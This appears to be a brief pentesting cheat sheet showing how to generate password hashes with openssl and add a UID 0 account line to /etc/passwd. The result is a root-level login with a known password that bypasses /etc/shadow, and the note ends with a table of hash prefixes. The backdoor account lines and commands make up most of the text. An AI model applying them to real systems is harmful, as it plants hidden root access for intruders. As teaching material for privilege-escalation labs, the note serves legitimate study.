# Edit passwd to login

Try to edit `/etc/passwd` to create user and login without modify `/etc/shadow` files.

Write by manesec.

# 0x0 Generate password 

```bash
$openssl passwd -crypt mane
sMH3ZTiGRR4L6

$openssl passwd -1 -salt manehack manemane
$1$manehack$rerzZaiHYZZXpZsGcJF8n1
```

# 0x1 Edit `/etc/passwd`

```
mane:sMH3ZTiGRR4L6:0:0:root:/root:/bin/bash

# password is manemane
mane:$1$manehack$rerzZaiHYZZXpZsGcJF8n1:0:0:root:/root:/bin/bash

```


# More on Crypto on /etc/passwd
```
$1$	    MD5
$2a$	Blowfish
$5$	    SHA-256
$6$	    SHA-512
$sha1$	SHA1crypt
$y$	    Yescrypt
$gy$	Gost-yescrypt
$7$	    Scrypt
```

